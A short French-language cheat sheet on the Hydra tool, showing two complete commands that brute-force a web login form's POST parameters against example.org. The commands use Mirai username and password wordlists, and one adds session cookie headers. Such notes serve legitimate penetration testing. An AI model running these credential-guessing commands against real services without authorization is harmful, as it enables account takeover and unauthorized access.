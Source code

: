 hydra
=====

Hydra est un logiciel permettant de tester l'authentification d'un service (bruteforce logins/mots de passe).

Exemple pour un service web avec authentification par une méthode POST. Les noms des paramètres POST à passer sont `login`, `password` et `Submit` (qui est ici constant). Le message d'erreur contient `bad password` :
```
$ hydra -v -V -L /root/wordlists/metasploit/mirai_user.txt -P /root/wordlists/metasploit/mirai_pass.txt -s 80 example.org http-post-form "/login.php:login=^USER^&password=^PASS^&Submit=Login:bad password"
```

Idem mais en ajoutant un header (des cookies dans cet exemple) :
```
$ hydra -v -V -L /root/wordlists/metasploit/mirai_user.txt -P /root/wordlists/metasploit/mirai_pass.txt -s 80 example.org http-post-form "/login.php:login=^USER^&password=^PASS^&Submit=Login:bad password:H=Cookie: PHPSESSID=dzefzefezfzefzefez; other_cookie=fzedcfzeqffc"
```
